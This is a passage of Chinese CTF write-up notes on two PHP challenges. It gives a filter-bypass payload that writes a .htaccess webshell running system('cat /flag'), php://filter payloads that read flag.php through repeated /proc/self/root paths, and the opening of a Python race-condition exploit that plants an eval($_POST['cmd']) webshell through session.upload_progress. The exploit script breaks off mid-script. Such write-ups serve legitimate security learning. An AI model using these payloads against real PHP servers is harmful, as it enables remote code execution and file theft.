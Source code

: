 postman构造请求包发送即可
参考链接：https://www.anquanke.com/post/id/224207（建议直接看这个

## [羊城杯2020]easyphp
关键词：htaccess头文件包含
这题看着就觉得奇怪，写了一堆waf不是直接往index.php写个马不就行了？
但是没写进去，应该是没有权限。
没权写index，那就只能想别的办法了（除了index都会被删除
方法：利用.htaccess设置文件自动包含
.htaccess也可以设置开头自动包含，.htaccess设置php环境变量的格式：
#format
php_value setting_name setting_value
#example
php_value auto_prepend_file .htaccess
所以传参?filename=.htaccess
content有过滤 需要先绕过 
    $content = $_GET['content'];
        if(stristr($content,'on') || stristr($content,'html') || stristr($content,'type') || stristr($content,'flag') || stristr($content,'upload') || stristr($content,'file')) {
            echo "Hacker";
            die();
可以通过对过滤的关键字中间添加换行\n来绕过stristr函数的检测，不过仍然需要注意添加\来转义掉换行，这样才不会出现语法错误，如此一来就不需要再绕过preg_match函数，即可直接写入.htaccess来getshell
?content=php_value%20auto_prepend_fil\%0ae%20.htaccess%0a%23<?php%20system('cat%20/fla'.'g');?>\&filename=.htaccess
写入内容：
php_value auto_prepend_fil\ 
e .htaccess 
#<?php system('cat /fla'.'g');?>\ 

用filter流base64decode content中内容也可以绕过

## [WMCTF2020]Make PHP Great Again
预期解：require_once 绕过不能重复包含文件的限制
在php中，require_once在调用时php会检查该文件是否已经被包含过，如果是则不会再次包含。所以我们要读取flag.php，必须绕过这个限制。
原理解析：https://www.anquanke.com/post/id/213235；https://blog.frankli.site/2020/08/05/WMCTF2020-PHP-source-analysis/
payload：php://filter/convert.base64-encode/resource=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/var/www/html/flag.php
/proc/self/root只能多不能少，原理见链接2。

非预期1：?file=php://filter/convert.base64-encode/resource=/Troy3e/../proc/self/cwd/flag.php
附所有proc解析：https://blog.csdn.net/weixin_37778713/article/details/106130248
非预期2：利用session.upload_progress进行文件包含
在PHP>5.4，session.upload_progress.enabled这个参数在php.ini中默认开启，在上传的过程中会生成上传进度文件，PHP将会把此次文件上传的详细信息(如上传时间、上传进度等)存储在session当中 ，它的存储路径可以在phpinfo中查到.
可以利用session.upload_progress将恶意语句写入session文件，再去利用竞争在session清空前包含session文件，达到Getshell的目的。
exp：
    #coding=utf-8 
    import io
    import requests
    import threading
    sessid = 'peri0d'
    data = {"cmd":"system('whoami');"} 
    def write(session):
        while True:
            f = io.BytesIO(b'a' * 1024 * 50)
            resp = session.post( 'http://5bee85f4-0831-4fcf-a4c2-f33a607684b0.node3.buuoj.cn/', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('peri0d.txt',f)}, cookies={'PHPSESSID': sessid} )